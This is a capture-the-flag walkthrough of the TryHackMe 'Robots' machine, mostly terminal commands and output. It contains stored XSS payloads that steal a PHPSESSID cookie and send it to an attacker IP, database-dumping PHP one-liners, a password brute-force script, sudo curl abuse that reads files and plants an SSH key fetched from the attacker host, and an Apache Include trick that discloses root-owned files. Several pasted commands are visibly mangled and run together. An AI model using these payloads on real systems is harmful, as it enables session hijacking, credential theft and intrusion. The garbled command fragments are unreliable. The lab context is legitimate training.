



THM · Hard · Linux
Robots
root in /home/yoinkas
❯ nmap -sC -sV -vv -T4 -p- 10.67.138.209
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-18 05:52 -0500
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 05:52
Completed NSE at 05:52, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 05:52
Completed NSE at 05:52, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 05:52
Completed NSE at 05:52, 0.00s elapsed
Initiating Ping Scan at 05:52
Scanning 10.67.138.209 [4 ports]
Completed Ping Scan at 05:52, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 05:52
Completed Parallel DNS resolution of 1 host. at 05:52, 0.50s elapsed
Initiating SYN Stealth Scan at 05:52
Scanning 10.67.138.209 [65535 ports]
Discovered open port 22/tcp on 10.67.138.209
Discovered open port 80/tcp on 10.67.138.209
Discovered open port 9000/tcp on 10.67.138.209
Completed SYN Stealth Scan at 05:52, 15.29s elapsed (65535 total ports)
Initiating Service scan at 05:52
Scanning 3 services on 10.67.138.209
Completed Service scan at 05:53, 11.11s elapsed (3 services on 1 host)
NSE: Script scanning 10.67.138.209.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 05:53
Completed NSE at 05:53, 1.10s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 05:53
Completed NSE at 05:53, 0.13s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 05:53
Completed NSE at 05:53, 0.00s elapsed
Nmap scan report for 10.67.138.209
Host is up, received timestamp-reply ttl 62 (0.030s latency).
Scanned at 2026-11-18 05:52:36 EST for 27s
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 62 OpenSSH 8.9p1 (protocol 2.0)
80/tcp open http syn-ack ttl 61 Apache httpd 2.4.61
| http-robots.txt: 3 disallowed entries
|_/harming/humans /ignoring/human/orders /harm/to/self
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.61 (Debian)
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
9000/tcp open http syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
| http-methods:
|_ Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: robots.thm
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 05:53
Completed NSE at 05:53, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 05:53
Completed NSE at 05:53, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 05:53
Completed NSE at 05:53, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.65 seconds
Raw packets sent: 65539 (2.884MB) | Rcvd: 65536 (2.621MB)

AN ADMIN MONITORS NEW USERS is an indicator that we can try and retrie
We will try and register a new user

we can see that it takes our username and date and month and md5 hashes it but lets see if we can enter some XSS to see if it can reveal something its not supposed to ..
and setting up a listener
root in THM/MAChines/Robots via C v16.2.0-gcc
❯ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.67.138.209 - - [18/Nov/2026 06:40:12] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:40:42] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:40:42] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:41:12] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:41:12] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:41:13] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:41:13] "GET /xss-confirmed HTTP/1.1" 404 -
10.67.138.209 - - [18/Nov/2026 06:41:43] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:41:43] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:41:43] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:41:43] "GET /xss-confirmed HTTP/1.1" 404 -<script>fetch('http://192.168.137.45:8000/xss-confirmed')</script>and then running this in the username field and entering in a birthday shows that is is confirmed a XSS vulnerability
you will get a notification that it is too long
root in THM/MAChines/Robots via C v16.2.0-gcc
❯ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.67.138.209 - - [18/Nov/2026 06:44:13] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:44:13] "GET /xss-confirmed HTTP/1.1" 404 -
10.67.138.209 - - [18/Nov/2026 06:44:13] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:44:43] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:44:43] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:44:43] "GET /xss-confirmed HTTP/1.1" 404 -
10.67.138.209 - - [18/Nov/2026 06:44:43] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:44:43] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:44:43] "GET /xss-confirmed HTTP/1.1" 404 -
10.67.138.209 - - [18/Nov/2026 06:44:43] code 414, message URI Too Long
10.67.138.209 - - [18/Nov/2026 06:44:43] "" 414 -
10.67.138.209 - - [18/Nov/2026 06:45:13] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:45:13] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:45:13] "GET /xss-confirmed HTTP/1.1" 404 -
10.67.138.209 - - [18/Nov/2026 06:45:13] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:45:13] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:45:13] "GET /xss-confirmed HTTP/1.1" 404 -
10.67.138.209 - - [18/Nov/2026 06:45:13] code 414, message URI Too Long
10.67.138.209 - - [18/Nov/2026 06:45:13] "" 414 -
10.67.138.209 - - [18/Nov/2026 06:45:43] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:45:43] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:45:43] "GET /xss-confirmed HTTP/1.1" 404 -
10.67.138.209 - - [18/Nov/2026 06:45:43] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:45:43] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:45:43] "GET /xss-confirmed HTTP/1.1" 404 -
10.67.138.209 - - [18/Nov/2026 06:45:43] code 414, message URI Too Long
10.67.138.209 - - [18/Nov/2026 06:45:43] "" 414 -
10.67.138.209 - - [18/Nov/2026 06:46:13] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:46:13] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:46:13] "GET /xss-confirmed HTTP/1.1" 404 -
10.67.138.209 - - [18/Nov/2026 06:46:13] "GET / HTTP/1.1" 200 -
10.67.138.209 - - [18/Nov/2026 06:46:13] code 404, message File not found
10.67.138.209 - - [18/Nov/2026 06:46:13] "GET /xss-confirmed HTTP/1.1" 404 -
10.67.138.209 - - [18/Nov/2026 06:46:13] code 414, message URI Too Long
10.67.138.209 - - [18/Nov/2026 06:46:13] "" 414 -<script>fetch('/harm/to/self/server_info.php').then(r=>r.text()).then(d=>{let s=d.match(/PHPSESSID.*?([a-zA-Z0-9]{26})/);fetch('http://192.168.137.45:8000/?sess='+(s?s[1]:'fail'))})</script>Note: Instead of sending the whole HTML page, this script fetches server_info.php, uses a regex to find the PHPSESSID value, and sends only that short string to your listener.
GET /?data=PCFET0NUWVBFIGh0bWwgUFVCTElDICItLy9XM0MvL0RURCBYSFRNTCAxLjAgVHJhbnNpdGlvbmFsLy9FTiIgIkRURC94aHRtbDEtdHJhbnNpdGlvbmFsLmR0ZCI+CjxodG1sIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hodG1sIj48aGVhZD4KPHN0eWxlIHR5cGU9InRleHQvY3NzIj4KYm9keSB7YmFja2dyb3VuZC1jb2xvcjogI2ZmZjsgY29sb3I6ICMyMjI7IGZvbnQtZmFtaWx5OiBzYW5zLXNlcmlmO30KcHJlIHttYXJnaW46IDA7IGZvbnQtZmFtaWx5OiBtb25vc3BhY2U7fQphOmxpbmsge2NvbG9yOiAjMDA5OyB0ZXh0LWRlY29yYXRpb246IG5vbmU7IGJhY2tncm91bmQtY29sb3I6ICNmZmY7fQphOmhvdmVyIHt0ZXh0LWRlY29yYXRpb246IHVuZGVybGluZTt9CnRhYmxlIHtib3JkZXItY29sbGFwc2U6IGNvbGxhcHNlOyBib3JkZXI6IDA7IHdpZHRoOiA5MzRweDsgYm94LXNoYWRvdzogMXB4IDJweCAzcHggcmdiYSgwLCAwLCAwLCAwLjIpO30KLmNlbnRlciB7dGV4dC1hbGlnbjogY2VudGVyO30KLmNlbnRlciB0YWJsZSB7bWFyZ2luOiAxZW0gYXV0bzsgdGV4dC1hbGlnbjogbGVmdDt9Ci5jZW50ZXIgdGgge3RleHQtYWxpZ246IGNlbnRlciAhaW1wb3J0YW50O30KdGQsIHRoIHtib3JkZXI6IDFweCBzb2xpZCAjNjY2OyBmb250LXNpemU6IDc1JTsgdmVydGljYWwtYWxpZ246IGJhc2VsaW5lOyBwYWRkaW5nOiA0cHggNXB4O30KdGgge3Bvc2l0aW9uOiBzdGlja3k7IHRvcDogMDsgYmFja2dyb3VuZDogaW5oZXJpdDt9CmgxIHtmb250LXNpemU6IDE1MCU7fQpoMiB7Zm9udC1zaXplOiAxMjUlO30KaDIgYTpsaW5rLCBoMiBhOnZpc2l0ZWR7Y29sb3I6IGluaGVyaXQ7IGJhY2tncm91bmQ6IGluaGVyaXQ7fQoucCB7dGV4dC1hbGlnbjogbGVmdDt9Ci5lIHtiYWNrZ3JvdW5kLWNvbG9yOiAjY2NmOyB3aWR0aDogMzAwcHg7IGZvbnQtd2VpZ2h0OiBib2xkO30KLmgge2JhY2tncm91bmQtY29sb3I6ICM5OWM7IGZvbnQtd2VpZ2h0OiBib2xkO30KLnYge2JhY2tncm91bmQtY29sb3I6ICNkZGQ7IG1heC13aWR0aDogMzAwcHg7IG92ZXJmbG93LXg6IGF1dG87IHdvcmQtd3JhcDogYnJlYWstd29yZDt9Ci52IGkge2NvbG9yOiAjOTk5O30KaW1nIHtmbG9hdDogcmlnaHQ7IGJvcmRlcjogMDt9CmhyIHt3aWR0aDogOTM0cHg7IGJhY2tncm91bmQtY29sb3I6ICNjY2M7IGJvcmRlcjogMDsgaGVpZ2h0OiAxcHg7fQo6cm9vdCB7LS1waHAtZGFyay1ncmV5OiAjMzMzOyAtLXBocC1kYXJrLWJsdWU6ICM0RjVCOTM7IC0tcGhwLW1lZGl1bS1ibHVlOiAjODg5MkJGOyAtLXBocC1saWdodC1ibHVlOiAjRTJFNEVGOyAtLXBocC1hY2NlbnQtcHVycGxlOiAjNzkzODYyfUBtZWRpYSAocHJlZmVycy1jb2xvci1zY2hlbWU6IGRhcmspIHsKICBib2R5IHtiYWNrZ3JvdW5kOiB2YXIoLS1waHAtZGFyay1ncmV5KTsgY29sb3I6IHZhcigtLXBocC1saWdodC1ibHVlKX0KICAuaCB0ZCwgdGQuZSwgdGgge2JvcmRlci1jb2xvcjogIzYwNkE5MH0KICB0ZCB7Ym9yZGVyLWNvbG9yOiAjNTA1MTUzfQogIC5lIHtiYWNrZ3JvdW5kLWNvbG9yOiAjNDA0QTc3fQogIC5oIHtiYWNrZ3JvdW5kLWNvbGand Boom it worked !!
but what we are looking for is the session cookie so we were getting forbidden so now we input this session token and
-10.67.138.209 - - [18/Nov/2026 06:50:44] "GET /?sess=3drp3a9j2ds4q867i122fsl0q7 HTTP/1.1" 200 -10.67.138.209 - - [18/Nov/2026 06:50:44] code 414, message URI Too Long10.67.138.209 - - [18/Nov/2026 06:50:44] "" 414 -10.67.138.209 - - [18/Nov/2026 06:51:14] "GET / HTTP/1.1" 200 -10.67.138.209 - - [18/Nov/2026 06:51:14] code 404, message File not found10.67.138.209 - - [18/Nov/2026 06:51:14] "GET /xss-confirmed HTTP/1.1" 404 -
s $row) { echo $row[0] . "\n"; }'KvKwK4S"); foreach($pdo->query("SHOW TABLES") as
logins
users
www-data@robots:/var/www/html/harm/to/self$ php -r '$pdo=new PDO("mysql:sers") as $row) { print_r($row); }'KwK4S"); foreach($pdo->query("SELECT * FROM us
Array
(
[id] => 1
[0] => 1
[username] => admin
[1] => admin
[password] => 3e3d6c2d540d49b1a11cf74ac5a37233
[2] => 3e3d6c2d540d49b1a11cf74ac5a37233
[group] => admin
[3] => admin
)
Array
(
[id] => 2
[0] => 2
[username] => rgiskard
[1] => rgiskard
[password] => dfb35334bf2a1338fa40e5fbb4ae4753
[2] => dfb35334bf2a1338fa40e5fbb4ae4753
[group] => nologin
[3] => nologin
)
Array
(
[id] => 3
[0] => 3
[username] => <script>fetch('/harm/to/self/server_info.php').then(r=>r.text()).then(d=>{let s=d.match(/PHPSESSID.*?([a-zA-Z0-9]{26})/);fetch('http://192.168.137.45:8000/?sess='+(s?s[1]:'fail'))})</script>
[1] => <script>fetch('/harm/to/self/server_info.php').then(r=>r.text()).then(d=>{let s=d.match(/PHPSESSID.*?([a-zA-Z0-9]{26})/);fetch('http://192.168.137.45:8000/?sess='+(s?s[1]:'fail'))})</script>
[password] => 91ea36306af6324ebd01e65daf4f54c7
[2] => 91ea36306af6324ebd01e65daf4f54c7
[group] => guest
[3] => guest
)
Array
(
[id] => 6
[0] => 6
[username] => <script>fetch('http://192.168.137.45:8000/xss-confirmed')</script>
[1] => <script>fetch('http://192.168.137.45:8000/xss-confirmed')</script>
[password] => 1f2c4ba96176dc8ca735011cabf09ada
[2] => 1f2c4ba96176dc8ca735011cabf09ada
[group] => guest
[3] => guest
)
Array
(
[id] => 7
[0] => 7
[username] => <script>fetch('/harm/to/self/server_info.php').then(r=>r.text()).then(d=>fetch('http://192.168.137.45:8000/?data='+btoa(d)))</script>
[1] => <script>fetch('/harm/to/self/server_info.php').then(r=>r.text()).then(d=>fetch('http://192.168.137.45:8000/?data='+btoa(d)))</script>
[password] => bd73cb8e7258b5a29cfb1eae04c86f09
[2] => bd73cb8e7258b5a29cfb1eae04c86f09
[group] => guest
[3] => guest
)
www-data@robots:/var/www/html/harm/to/self$www-data@robots:/var/www/html/harm/to/self$ cat login.php
...
if (isset($_POST['username'])&&isset($_POST['password'])) {
$stmt = $pdo->prepare('SELECT * from users where (username= ? and password=md5(?) and `group` NOT LIKE "nologin")');
...#!/usr/bin/env python3
from hashlib import md5
for m in range(1, 13):
for d in range(1, 32):
plain = "rgiskard" + str(d).zfill(2) + str(m).zfill(2)
password = md5(plain.encode()).hexdigest()
hashed = md5(password.encode()).hexdigest()
if hashed == "[REPLACE WITH THE HASH FROM THE DATABASE FOR THE RGISKARD USER]":
print(f"Plain: {plain}, Password: {password}")
exit()
root in THM/MAChines/Robots via 🐘 v8.4.27 via 🐍 v3.14.8 ❯ cat brute.py #!/usr/bin/env python3
from hashlib import md5
for m in range(1, 13): for d in range(1, 32): plain = "rgiskard" + str(d).zfill(2) + str(m).zfill(2) password = md5(plain.encode()).hexdigest() hashed = md5(password.encode()).hexdigest() if hashed == "[dfb35334bf2a1338fa40e5fbb4ae4753]": print(f"Plain: {plain}, Password: {password}") exit()
root in THM/MAChines/Robots via 🐘 v8.4.27 via 🐍 v3.14.8 ❯ nano brute.py
root in THM/MAChines/Robots via 🐘 v8.4.27 via 🐍 v3.14.8 took 17s ❯ ./brute.py
Plain: rgiskard2209, Password: b246f21ff68cae9503ed6d18edd32dae
root in THM/MAChines/Robots via 🐘 v8.4.27 via 🐍 v3.14.8 ❯
rgiskard@ubuntu-jammy:/home$ sudo -l
[sudo] password for rgiskard:
Matching Defaults entries for rgiskard on ubuntu-jammy:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User rgiskard may run the following commands on ubuntu-jammy:
(dolivaw) /usr/bin/curl 127.0.0.1/*Note: Because the sudoers rule allows curl, and curl can accept multiple URLs in one command, only the first URL has to be 127.0.0.1/. We can add a second URL using the file:// protocol, which curl also supports, to read the user flag directly.
rgiskard@ubuntu-jammy:/home$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///home/dolivaw/user.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.61 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
THM{9b17d3c3e86c944c868c57b5a7fa07d8}rgiskard@ubuntu-jammy:/home$me$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://192.168.137.45/id_ed25^C9.pub -o /tmp/1 -o /home/dolivaw/.ssh/authorized_keysrgiskard@ubuntu-jammy:/home$ sudo -u dolivaw /usr/bin/curl 127.0.0.1/ http://192.168.137.45/id_ed25519.pub -o /tmp/1 -o /home/dolivaw/.ssh/authorized_keys % Total % Received % Xferd Average Speed Time Time Time Current Dload Upload Total Spent Left Speed100 274 100 274 0 0 51610 0 --:--:-- --:--:-- --:--:-- 54800 % Total % Received % Xferd Average Speed Time Time Time Current Dload Upload Total Spent Left Speed100 94 100 94 0 0 1144 0 --:--:-- --:--:-- --:--:-- 1146rgiskard@ubuntu-jammy:/home$ chmod 600 id_ed25519ssh -i id_ed25519 dolivaw@robots.thmchmod: cannot access 'id_ed25519': No such file or directoryWarning: Identity file id_ed25519 not accessible: No such file or directory.ssh: Could not resolve hostname robots.thm: Name or service not knownrgiskard@ubuntu-jammy:/home$ lsdolivaw rgiskard vagrantrgiskard@ubuntu-jammy:/home$ cd /tmprgiskard@ubuntu-jammy:/tmp$ ls1 systemd-private-674856f1936d4f91a6266404158d9f55-apache2.service-sXzmPW systemd-private-674856f1936d4f91a6266404158d9f55-systemd-resolved.service-YP5Weesnap-private-tmp systemd-private-674856f1936d4f91a6266404158d9f55-systemd-logind.service-EJfj8b systemd-private-674856f1936d4f91a6266404158d9f55-systemd-timesyncd.service-xMxChm
root in THM/MAChines/Robots via 🐘 v8.4.27 took 6m18s ❯ ssh -i id_ed25519 dolivaw@robots.thm** WARNING: connection is not using a post-quantum key exchange algorithm.** This session may be vulnerable to "store now, decrypt later" attacks.** The server may need to be upgraded. See https://openssh.com/pq.htmldolivaw@ubuntu-jammy:~$
Privilege Escalation to Root
Note: The dolivaw account can run every command as root without a password, so
sudo su - provides an immediate root shell. The Apache permission also offers a file-disclosure technique: including a protected file as configuration makes Apache reveal its first line in the resulting syntax error.dolivaw@ubuntu-jammy:~$ sudo -l
Matching Defaults entries for dolivaw on ubuntu-jammy:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User dolivaw may run the following commands on ubuntu-jammy:
(ALL) NOPASSWD: /usr/sbin/apache2
(ALL) NOPASSWD: ALL
dolivaw@ubuntu-jammy:~$ sudo su -
root@ubuntu-jammy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu-jammy:~# wc -c /root/root.txt
37 /root/root.txt
dolivaw@ubuntu-jammy:~$ sudo /usr/sbin/apache2 -C 'Include /root/root.txt' -k stop
[Mon Mar 17 00:06:00.171999 2025] [core:warn] [pid 1813] AH00111: Config variable ${APACHE_RUN_DIR} is not defined
apache2: Syntax error on line 80 of /etc/apache2/apache2.conf: DefaultRuntimeDir must be a valid directory, absolute or relative to ServerRoot
dolivaw@ubuntu-jammy:~$ sudo /usr/sbin/apache2 -C 'Define APACHE_RUN_DIR /tmp' -C 'Include /root/root.txt' -k stop
[Mon Mar 17 00:07:27.943748 2025] [core:warn] [pid 1816] AH00111: Config variable ${APACHE_PID_FILE} is not defined
[Mon Mar 17 00:07:27.943839 2025] [core:warn] [pid 1816] AH00111: Config variable ${APACHE_RUN_USER} is not defined
[Mon Mar 17 00:07:27.943847 2025] [core:warn] [pid 1816] AH00111: Config variable ${APACHE_RUN_GROUP} is not defined
[Mon Mar 17 00:07:27.943862 2025] [core:warn] [pid 1816] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Mon Mar 17 00:07:27.951625 2025] [core:warn] [pid 1816:tid 140193100588928] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Mon Mar 17 00:07:27.952035 2025] [core:warn] [pid 1816:tid 140193100588928] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
[Mon Mar 17 00:07:27.952070 2025] [core:warn] [pid 1816:tid 140193100588928] AH00111: Config variable ${APACHE_LOG_DIR} is not defined
AH00526: Syntax error on line 1 of /root/root.txt:
Invalid command 'THM{[REDACTED]}', perhaps misspelled or defined by a module not included in the server configuration